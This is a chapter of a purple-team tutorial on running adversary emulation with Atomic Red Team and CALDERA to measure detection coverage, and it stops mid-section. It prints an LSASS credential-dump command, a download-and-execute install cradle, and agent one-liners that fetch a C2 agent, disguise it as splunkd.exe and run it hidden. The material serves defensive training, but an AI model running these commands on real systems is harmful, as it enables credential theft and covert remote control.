







This is Chapter 2 of the Purple Team notebook. The previous chapter defined purple teaming as a transparent, collaborative loop in which offensive operators execute known adversary techniques while defenders watch the telemetry and measure coverage. That chapter answered *why* and *what*. This chapter answers *how you actually fire the techniques*. The engine that drives every purple exercise is **adversary emulation** — the disciplined execution of specific, catalogued adversary behaviours against your own environment — and the two open-source tools that dominate this space are **Atomic Red Team** and **MITRE CALDERA**. By the end of this chapter you will be able to install both, plan an emulation from real threat intelligence, run individual atomic tests and full autonomous operations, validate whether each technique was detected, and feed the results back into your detection engineering.

The same framing that governed the offensive notebooks governs this one. Everything here assumes **explicit, written authorization** and a lawful, scoped engagement against systems the organization owns or is contractually permitted to test. Adversary emulation deliberately executes real attacker behaviour — dumping credentials, creating scheduled tasks, spawning C2 agents — and running any of it outside an authorized lab or exercise window is indistinguishable from a real intrusion to anyone watching, and is a crime regardless of intent. Every technique in this chapter should be run first in a disposable lab you own, with snapshots you can roll back, before it ever touches an authorized production exercise.

We build from the definition of emulation and how it differs from simulation and covert red teaming, through the intelligence-to-plan pipeline, then Atomic Red Team taught from zero (framework, install, the Invoke-AtomicRedTeam PowerShell module, running and cleaning up tests), then CALDERA taught from zero (server, agents, abilities, adversaries, planners, operations), three fully worked labs, the detect-execute-tune loop with Sigma and ATT&CK Navigator, coverage scoring, operational safety and cleanup, common pitfalls, a final revision recap, a cheat sheet, and topic-specific practice resources.

## Why This Matters

A detection rule that has never been fired by the technique it claims to catch is a hypothesis, not a control. Adversary emulation is how you convert that hypothesis into evidence. When you run Atomic Test #1 for T1003.001 and watch whether Sysmon Event ID 10 fires on a `procdump` against `lsass.exe`, you are no longer guessing whether your credential-theft detection works — you are looking at the answer.

The reason two tools dominate, rather than one, is that they occupy different points on a granularity axis. **Atomic Red Team** is a library of small, self-contained, single-technique tests — you fire exactly one behaviour, in isolation, and attribute the resulting telemetry to that one behaviour with zero ambiguity. **CALDERA** is an emulation *platform* that chains techniques together into autonomous operations run by an agent on the target, so you can emulate a whole intrusion chain — discovery, collection, lateral movement, exfiltration — the way a real adversary would sequence it. A mature purple program uses both: Atomic to pin down individual detections precisely, CALDERA to test whether detections still hold up when techniques are chained under realistic timing and an autonomous decision loop.

Neither tool is a vulnerability scanner and neither exploits anything. They assume you already have execution on the target (that is exactly the assumed-breach model of a purple exercise) and they focus entirely on *post-compromise behaviour* — the ATT&CK techniques that a defender actually has to detect. That focus is what makes them the right instruments for measuring detection coverage rather than attack-surface exposure.

## Part 1: What Adversary Emulation Actually Is

**Adversary emulation** is the practice of executing a specific, documented set of adversary tactics, techniques, and procedures (TTPs) against an environment in order to test and improve the defenders' ability to detect and respond to them. The word "specific" is doing real work: emulation is not "try to hack in and see what happens." It is "execute *these named techniques*, in *this order*, using *these procedures*, and measure the result."

It is worth separating three terms that are constantly conflated.

- **Adversary emulation** reproduces the *actual* TTPs of a *specific, named* threat actor (say, FIN7 or APT29), derived from real intelligence reporting, as faithfully as is safe to do in your environment. The goal is realism: if the intel says the actor uses `rundll32.exe` to proxy-execute a malicious DLL and then creates a WMI event subscription for persistence, you emulate exactly that.
- **Adversary simulation** is a looser term often used interchangeably, but strictly it means testing representative attacker behaviour *without* tying it to one specific actor — a generic "run common credential-theft and lateral-movement techniques" exercise. Atomic Red Team, by testing one technique at a time detached from any single actor, is closer to simulation; CALDERA adversary profiles can do either.
- **Penetration testing / covert red teaming** is objective-driven and (for red teaming) stealth-driven, as covered in Chapter 1. Emulation is technique-driven and transparent.



The output of emulation is never "we got in." It is a **coverage scorecard**: for each technique fired, was it logged, was it alerted, how fast, and how precisely. That artifact is the deliverable that justifies the whole exercise.

**Red team usage:** emulation forces you to write down and reproduce a procedure exactly, which is superb discipline — it turns tribal "I ran mimikatz" knowledge into a repeatable, parameterised test another operator can run identically.

**Blue team usage:** emulation is the only way to test a detection end-to-end against the real event it is supposed to catch. A detection engineer who can fire the exact technique on demand can iterate a Sigma rule in minutes instead of waiting months for a real incident to reveal that the rule was broken.

## Part 2: The MITRE ATT&CK Backbone

Both tools are organised around **MITRE ATT&CK**, the knowledge base of adversary behaviour introduced in Chapter 1 and used across the defensive notebooks. A quick recap because everything in this chapter is indexed by it:

- **Tactics** are the adversary's goals — the "why" of a step. Examples: Initial Access (TA0001), Execution (TA0002), Persistence (TA0003), Privilege Escalation (TA0004), Defense Evasion (TA0005), Credential Access (TA0006), Discovery (TA0007), Lateral Movement (TA0008), Collection (TA0009), Command and Control (TA0011), Exfiltration (TA0010), Impact (TA0040).
- **Techniques** are the "how" — the general method used to achieve a tactic. Example: **T1003 — OS Credential Dumping**.
- **Sub-techniques** are more specific variants. Example: **T1003.001 — LSASS Memory**. Atomic Red Team is organised almost entirely by (sub-)technique ID; CALDERA abilities each carry an ATT&CK technique ID too.
- **Procedures** are the *specific implementation* an actor uses — e.g. dumping LSASS specifically with `procdump.exe -ma lsass.exe`. Atomic "tests" are essentially procedures for a technique.

| ATT&CK layer | Meaning | Example | Where it appears in these tools |
| --- | --- | --- | --- |
| Tactic | Adversary goal | Credential Access (TA0006) | CALDERA groups abilities by tactic; Atomic folders roll up under tactics |
| Technique | General method | T1003 OS Credential Dumping | Atomic folder `T1003`; CALDERA ability `technique_id` |
| Sub-technique | Specific variant | T1003.001 LSASS Memory | Atomic folder `T1003.001`; CALDERA ability metadata |
| Procedure | Concrete implementation | `procdump -ma lsass.exe` | An Atomic "test"; a CALDERA ability command |

This shared vocabulary is what lets you take a coverage result from CALDERA, a result from Atomic, and a Sigma rule, and lay them all on the same **ATT&CK Navigator** heatmap. When someone asks "what is our detection coverage for Credential Access?", the honest answer is a colour-coded Navigator layer built from emulation results — and this chapter's whole workflow exists to produce exactly that layer.

## Part 3: From Intelligence to an Emulation Plan

You do not emulate randomly; you emulate what is *relevant* to your organisation's threat model. The pipeline from raw intelligence to a runnable plan looks like this:

1. **Pick a threat actor or threat profile.** Use CTI (covered in the Threat Intel notebook) to choose an actor that realistically targets your sector — e.g. a financially motivated group targeting retail, or a ransomware affiliate. MITRE's own **Adversary Emulation Library** and the **Center for Threat-Informed Defense** publish ready-made emulation plans for actors like FIN6, APT29, menuPass, and Carbanak+FIN7.
2. **Extract the TTPs.** From the actor's ATT&CK group page (e.g. `G0046` for FIN7) or an emulation plan, list the technique IDs the actor is known to use.
3. **Prioritise by feasibility and value.** Not every technique is safe or relevant to run in your environment. Prioritise techniques that (a) the actor really uses, (b) you have a plausible detection for (or want one), and (c) are safe to execute in the exercise scope.
4. **Map each technique to a procedure.** Decide *how* you will fire it — an Atomic test number, or a CALDERA ability. Pin the exact procedure so the test is reproducible.
5. **Order them into a plan.** For chained CALDERA operations, order techniques into a realistic kill-chain sequence (Discovery → Credential Access → Lateral Movement → Collection → Exfiltration).



A minimal written plan for a retail-focused ransomware emulation might read:

| Order | Tactic | Technique | Procedure / tool | Safe in prod? |
| --- | --- | --- | --- | --- |
| 1 | Discovery | T1082 System Information Discovery | Atomic T1082 #1 (`systeminfo`) | Yes |
| 2 | Discovery | T1057 Process Discovery | Atomic T1057 #1 (`tasklist`) | Yes |
| 3 | Credential Access | T1003.001 LSASS Memory | Atomic T1003.001 #1 (procdump) | Lab only |
| 4 | Persistence | T1053.005 Scheduled Task | Atomic T1053.005 #1 (`schtasks`) | Yes, with cleanup |
| 5 | Collection | T1560.001 Archive via Utility | CALDERA ability (7-Zip/rar) | Yes |
| 6 | Exfiltration | T1048 Exfil Over Alt Protocol | CALDERA ability (HTTP POST) | Exercise window |

This plan is now runnable. The rest of the chapter teaches the two engines that execute it.

## Part 4: Atomic Red Team from Scratch

**What it is.** Atomic Red Team, maintained by Red Canary, is an open-source library of small, portable **tests** — each one a concrete procedure for a single ATT&CK technique, described in a simple YAML format. There are thousands of tests spanning Windows, Linux, and macOS. Each test is deliberately *atomic*: it does one thing, so any telemetry it produces is attributable to that one technique. It is the scalpel of emulation.

**Why it exists.** Before Atomic, testing a detection meant hand-crafting an attack, which was slow and inconsistent between analysts. Atomic standardises the procedure so that "run T1003.001 Test 1" means the exact same thing on every machine, every time — the reproducibility that detection engineering needs.

**Architecture.** Two pieces:

- The **`atomics/` content repository** (`redcanaryco/atomic-red-team`) — the YAML test definitions, organised in folders by technique ID (`atomics/T1003.001/T1003.001.yaml`), plus any payload files each test needs.
- The **`Invoke-AtomicRedTeam` execution framework** — a PowerShell module (cross-platform via PowerShell 7) that reads those YAML files and runs, checks prerequisites for, and cleans up tests.

Each YAML test has: a `name`, `description`, supported `supported_platforms`, optional `input_arguments` (parameters with defaults you can override), a `dependencies` block (files/state the test needs, with `get_prereq_command` to fetch them), an `executor` (`command_prompt`, `powershell`, `sh`, `bash`, or `manual`) with the `command` to run, and a `cleanup_command` to undo it.



### Installing Atomic Red Team

Atomic runs where PowerShell runs. On Windows it uses Windows PowerShell 5.1 or PowerShell 7; on Linux/macOS it uses PowerShell 7 (`pwsh`). Install in a **snapshotted VM you own**, never a machine you care about — many tests deliberately create malicious artefacts.

On Windows (PowerShell as Administrator):

```powershell
# Allow the install script to run in this session only
Set-ExecutionPolicy Bypass -Scope Process -Force

# Install the execution framework module and the atomics content
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing)
Install-AtomicRedTeam -getAtomics -Force
```

What each part does:

- `Set-ExecutionPolicy Bypass -Scope Process -Force` — allows unsigned scripts for *this PowerShell process only* (`-Scope Process`), the least-persistent option; `-Force` suppresses the confirmation prompt.
- `IWR` (`Invoke-WebRequest`) with `-UseBasicParsing` downloads the installer without needing IE's DOM engine; `IEX` (`Invoke-Expression`) runs it.
- `Install-AtomicRedTeam -getAtomics` installs the module *and* clones the `atomics/` content to `C:\AtomicRedTeam\atomics` by default; `-Force` overwrites an existing install.

On Linux (install PowerShell 7 first, then the module):

```bash
# Ubuntu: install PowerShell 7
sudo apt-get update && sudo apt-get install -y wget apt-transport-https software-properties-common
wget -q "https://packages.microsoft.com/config/ubuntu/22.04/packages-microsoft-prod.deb"
sudo dpkg -i packages-microsoft-prod.deb && sudo apt-get update && sudo apt-get install -y powershell

# Launch pwsh and install Atomic
pwsh
```

```powershell
# Inside pwsh
Install-Module -Name invoke-atomicredteam -Scope CurrentUser -Force
Import-Module invoke-atomicredteam
# Clone atomics content
git clone https://github.com/redcanaryco/atomic-red-team.git ~/AtomicRedTeam
$env:PathToAtomicsFolder = "$HOME/AtomicRedTeam/atomics"
```

Load the module in any session before use:

```powershell
Import-Module "C:\AtomicRedTeam\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force
$PSDefaultParameterValues = @{ "Invoke-AtomicTest:PathToAtomicsFolder" = "C:\AtomicRedTeam\atomics" }
```

### The Invoke-AtomicTest workflow

`Invoke-AtomicTest` is the one command you will use constantly. Its lifecycle for any technique is: **show → check prereqs → get prereqs → execute → cleanup.**

```powershell
# 1. Show what tests exist for a technique (no execution)
Invoke-AtomicTest T1003.001 -ShowDetailsBrief
```

Realistic output:

```
PathToAtomicsFolder = C:\AtomicRedTeam\atomics

T1003.001-1 Dump LSASS.exe Memory using ProcDump
T1003.001-2 Dump LSASS.exe Memory using comsvcs.dll
T1003.001-3 Dump LSASS.exe Memory using direct system calls and API unhooking
T1003.001-4 Dump LSASS.exe Memory using NanoDump
T1003.001-5 Dump LSASS.exe Memory using Windows Task Manager
T1003.001-6 Offline Credential Theft With Mimikatz
```

```powershell
# 2. Full details of a specific test (command, args, cleanup) — still no execution
Invoke-AtomicTest T1003.001 -TestNumbers 1 -ShowDetails

# 3. Check whether prerequisites are already satisfied
Invoke-AtomicTest T1003.001 -TestNumbers 1 -CheckPrereqs

# 4. Fetch missing prerequisites (downloads procdump.exe here)
Invoke-AtomicTest T1003.001 -TestNumbers 1 -GetPrereqs

# 5. Execute the test
Invoke-AtomicTest T1003.001 -TestNumbers 1

# 6. Clean up artefacts the test created
Invoke-AtomicTest T1003.001 -TestNumbers 1 -Cleanup
```

Key flags explained:

| Flag | Purpose |
| --- | --- |
| `-ShowDetailsBrief` | List test names/numbers for a technique, no execution |
| `-ShowDetails` | Print full command, input args, and cleanup for the test(s) |
| `-CheckPrereqs` | Verify the test's dependencies are met; prints what's missing |
| `-GetPrereqs` | Run each dependency's `get_prereq_command` to satisfy them |
| `-TestNumbers 1,3` | Run only specific test numbers (comma-separated) |
| `-TestGuids <guid>` | Run a test by its stable GUID instead of number |
| `-InputArgs @{ }` | Override input arguments (hashtable of name=value) |
| `-Cleanup` | Run the test's `cleanup_command` to revert changes |
| `-TimeoutSeconds` | Kill a test that runs longer than N seconds |
| `-ExecutionLogPath` | Write a CSV log of what ran, when, and the result |

**Always log your runs** so the blue team can correlate emulation timestamps against alerts:

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 1 -ExecutionLogPath "C:\atomic-logs\run.csv"
```

That CSV records timestamp, hostname, user, technique, test name, and GUID — the exact join key that lets an analyst confirm "the alert at 14:07 corresponds to Atomic T1003.001-1", removing all ambiguity from the coverage result.

### Overriding input arguments

Most tests parameterise their behaviour. Inspect and override:

```powershell
# See the input arguments and their defaults
Invoke-AtomicTest T1053.005 -TestNumbers 1 -ShowDetails
# Run with a custom task name
Invoke-AtomicTest T1053.005 -TestNumbers 1 -InputArgs @{ "task_name" = "PurpleExerciseTask" }
```

This matters for purple work because you often want deterministic, easily-searchable artefact names (`PurpleExerciseTask`) so the blue team can filter them out or specifically hunt for them.

### Understanding executors and dependencies

Two YAML blocks decide *how* a test behaves, and understanding them lets you read (and trust) any test before you run it — a discipline you should never skip, because you are about to execute attacker code on your own machine.

The **executor** block names the interpreter and the command. The `name` field is one of:

| Executor `name` | Runs via | Typical use |
| --- | --- | --- |
| `command_prompt` | `cmd.exe /c` | Native Windows commands, `schtasks`, `reg`, `wmic` |
| `powershell` | `powershell.exe -Command` | PowerShell cmdlets, download cradles, .NET calls |
| `sh` / `bash` | `/bin/sh` or `/bin/bash` | Linux/macOS techniques |
| `manual` | Nothing — printed for a human | Steps that can't be safely automated |

An executor also carries `elevation_required: true/false`. If it is `true` and you are not elevated, the test typically fails or silently does nothing — one of the most common "why did nothing happen?" causes (see Part 14). Launch PowerShell/terminal as Administrator/root for those tests.

The **dependencies** block is how a test stays portable. Each dependency has three parts: a `description`, a `prereq_command` (returns exit code 0 if the prerequisite is already satisfied), and a `get_prereq_command` (the command `-GetPrereqs` runs to satisfy it). For the LSASS test above, the dependency is "procdump.exe must exist," the check is a `Test-Path`, and the get is a download from Sysinternals. When you run `-CheckPrereqs`, Atomic runs every `prereq_command` and reports which failed; `-GetPrereqs` then runs the corresponding `get_prereq_command`. This two-phase design means you can pre-stage all dependencies for an entire exercise offline, then execute tests later on an air-gapped target.

```powershell
# Pre-stage dependencies for a whole batch of techniques at once
"T1003.001","T1053.005","T1082","T1057" | ForEach-Object {
    Invoke-AtomicTest $_ -GetPrereqs
}
```

### Running a whole technique or an entire tactic

You can fire *all* tests for a technique (omit `-TestNumbers`), and you can drive Atomic from a CSV plan so an entire emulation runs unattended:

```powershell
# Every test for a technique (careful — some may be destructive; read first)
Invoke-AtomicTest T1057

# Run a planned batch with per-test logging, then clean it all up afterward
$plan = "T1082","T1057","T1053.005"
$plan | ForEach-Object { Invoke-AtomicTest $_ -ExecutionLogPath C:\logs\exercise.csv }
$plan | ForEach-Object { Invoke-AtomicTest $_ -Cleanup }
```

The `exercise.csv` becomes the authoritative timeline the blue team joins against their alerts — one row per executed test with its exact timestamp, which is the backbone of the MTTD calculation in Part 10.

## Part 5: Lab 1 — Atomic T1003.001 LSASS Dump with Sysmon Validation

This is a fully worked purple micro-exercise: fire one credential-access technique and confirm the detection fires. **Lab only** — LSASS dumping produces a file containing credentials; run this in a snapshotted VM you own and delete the dump afterwards.

**Setup:** a Windows 10/11 VM with Sysmon installed using a good config (SwiftOnSecurity or Olaf Hartong's `sysmon-modular`), forwarding to a SIEM or at least writing to the local `Microsoft-Windows-Sysmon/Operational` log. Sysmon **Event ID 10 (ProcessAccess)** is the key event for LSASS access.

Step 1 — install Sysmon with a config (from the earlier Blue Team / Sysmon material):

```powershell
# Download Sysmon and a modular config, install as a service
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
# Confirm the service is running
Get-Service Sysmon64
```

Step 2 — show and prep the atomic test:

```powershell
Import-Module "C:\AtomicRedTeam\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force
Invoke-AtomicTest T1003.001 -TestNumbers 1 -ShowDetails
```

Abbreviated output (the procedure you are about to fire):

```
[********BEGIN TEST*******]
Technique: OS Credential Dumping: LSASS Memory T1003.001
Atomic Test Name: Dump LSASS.exe Memory using ProcDump
Atomic Test GUID: 6ba5c0d6-a6f8-4ef4-8c34-a4f6c8cf2b8a
Description: The memory of lsass.exe is often dumped for offline credential theft attacks. Uses ProcDump from Sysinternals.

Attack Commands: Executor: command_prompt
  Command:
    "PathToAtomicsFolder\..\ExternalPayloads\procdump.exe" -accepteula -ma lsass.exe C:\Windows\Temp\lsass_dump.dmp

Dependencies:
  Description: ProcDump tool must exist on disk
  Check Prereq Command:  ... Test-Path procdump.exe ...
  Get Prereq Command:    ... download procdump.exe from Sysinternals ...

Cleanup Commands:
  del "C:\Windows\Temp\lsass_dump.dmp" >nul 2> nul
[********END TEST*******]
```

Step 3 — fetch prereqs (downloads `procdump.exe`) and run with logging:

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 1 -GetPrereqs
Invoke-AtomicTest T1003.001 -TestNumbers 1 -ExecutionLogPath "C:\atomic-logs\lsass.csv"
```

Realistic execution output:

```
PathToAtomicsFolder = C:\AtomicRedTeam\atomics

Executing test: T1003.001-1 Dump LSASS.exe Memory using ProcDump
ProcDump v11.0 - Sysinternals process dump utility
[14:07:22] Dump 1 initiated: C:\Windows\Temp\lsass_dump.dmp
[14:07:22] Dump 1 writing: Estimated dump file size is 62 MB.
[14:07:23] Dump 1 complete: 62 MB written in 1.1 seconds
Done executing test: T1003.001-1 Dump LSASS.exe Memory using ProcDump
```

Step 4 — **the purple step: check the telemetry.** Query the Sysmon log for a ProcessAccess event where the target image is `lsass.exe`:

```powershell
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" |
  Where-Object { $_.Id -eq 10 -and $_.Message -like "*lsass.exe*" } |
  Select-Object -First 1 | Format-List TimeCreated, Id, Message
```

Realistic matching event:

```
TimeCreated : 14:07:22
Id          : 10
Message     : Process accessed:
              SourceImage: C:\AtomicRedTeam\ExternalPayloads\procdump.exe
              TargetImage: C:\Windows\system32\lsass.exe
              GrantedAccess: 0x1FFFFF
              CallTrace: C:\Windows\SYSTEM32\ntdll.dll+... 
```

The `GrantedAccess: 0x1FFFFF` (full access) to `lsass.exe` by a non-system process is the classic LSASS-dump signature. If this event is present → **logged**. If your SIEM also raised an alert → **detected**. If nothing appeared → **not logged**, and you have found a gap (often because the Sysmon config excludes ProcessAccess for LSASS, or Sysmon isn't installed).

Step 5 — clean up and record the result:

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 1 -Cleanup
```

**Scorecard entry:** `T1003.001-1 | fired 14:07:22 | Sysmon EID 10 present: YES | SIEM alert: <yes/no> | MTTD: <n min>`. That single row is a real, defensible coverage data point — and it took two minutes.

## Part 6: MITRE CALDERA from Scratch

**What it is.** CALDERA is an open-source **adversary emulation platform** built by MITRE. Where Atomic fires one technique at a time by hand, CALDERA deploys a lightweight **agent** onto the target and then autonomously runs *chains* of techniques, using a **planner** to decide the order and to feed the output of one step (say, a discovered username) into the next. It is the automation and orchestration layer of emulation.

**Why it exists.** Real intrusions are sequences, not isolated actions, and the telemetry of a chain differs from the sum of its parts (timing, parent-child process relationships, data flows). CALDERA lets you emulate that whole chain repeatably and autonomously so you can test detections under realistic conditions and at scale.

**Core concepts** (learn these five and CALDERA makes sense):

| Concept | What it is |
| --- | --- |
| **Agent** | A program running on the target that receives instructions from the server and executes them. The default agent is **Sandcat** (aka `54ndc47`), a Go binary. Agents connect back to the C2 over HTTP(S). |
| **Ability** | A single executable action tied to one ATT&CK technique — a command plus metadata (platform, executor, cleanup, and *facts* it consumes/produces). The CALDERA equivalent of an Atomic test. |
| **Adversary** | An ordered *profile* — a named collection of abilities representing a threat actor or scenario (e.g. "Discovery", "Hunter", a custom chain). |
| **Operation** | A run: an adversary profile executed against a group of agents, with a chosen planner and settings. Produces the results and report. |
| **Planner** | The decision logic that orders and gates ability execution. The default `atomic` planner runs abilities in order as their required facts become available; `batch` runs everything at once. |
| **Fact / Fact source** | Typed key-value data (e.g. `host.user.name`) that abilities produce and consume, enabling data to flow through a chain. |



### Installing CALDERA

CALDERA runs as a server (Python, typically on Linux) that operators drive through a web UI or REST API; agents are then deployed to targets. Install the server in your lab:

```bash
# Server: Linux with Python 3.8+ and Go (Go is needed to compile agents like Sandcat)
git clone https://github.com/mitre/caldera.git --recursive
cd caldera
python3 -m pip install -r requirements.txt

# Start the server (insecure mode is fine for an isolated lab)
python3 server.py --insecure --build
```

Flags explained:

- `--recursive` on the clone pulls in the plugin submodules (Sandcat, stockpile abilities, etc.) — without it CALDERA is missing most of its content.
- `--insecure` uses the default credentials/config from `conf/default.yml` (red user password `admin`) — **lab only, never expose this to a network**.
- `--build` compiles the front-end and agent binaries on startup.

On first start it prints the URL and credentials:

```
Starting server...
Loading default configuration...
Serving at http://0.0.0.0:8888
Created a new red user: red / admin  (or the password in conf/local.yml)
```

Browse to `http://<server-ip>:8888`, log in as `red / admin`.

### Deploying the Sandcat agent

From the CALDERA UI, **Agents → Deploy an agent → Sandcat**, choose the target platform, and it generates a one-line command that downloads and runs the agent. On a Windows target (PowerShell), it looks like:

```powershell
$server="http://192.168.56.10:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
[System.IO.File]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath "C:\Users\Public\splunkd.exe" -ArgumentList "-server $server -group red" -WindowStyle Hidden;
```

On Linux:

```bash
server="http://192.168.56.10:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > /tmp/sandcat;
chmod +x /tmp/sandcat;
/tmp/sandcat -server $server -group red -v &
```

Key agent flags:

- `-server` — the CALDERA C2 URL the agent beacons to.
- `-group` — the agent group label (e.g. `red`); operations target groups.
- `-v` — verbose logging (handy in the lab to see what the agent is doing).

Once running, the agent appears in **Agents** with its host, platform, PID, and last-seen time. **Blue team usage:** the very act of an agent beaconing on a regular interval to an HTTP endpoint is itself detectable — a purple exercise should check whether the SIEM flags the periodic beacon and the suspiciously-named `splunkd.exe`/`sandcat` process, independent of any ability it runs.

### Abilities, adversaries, and planners in the UI

- **Abilities** (Navigate → *Abilities*): browse the ~1,000 built-in abilities from the *stockpile* plugin, each tagged with an ATT&CK technique. Example ability: "Find files" (T1005), which runs a `dir`/`find` command and stores matches as facts.
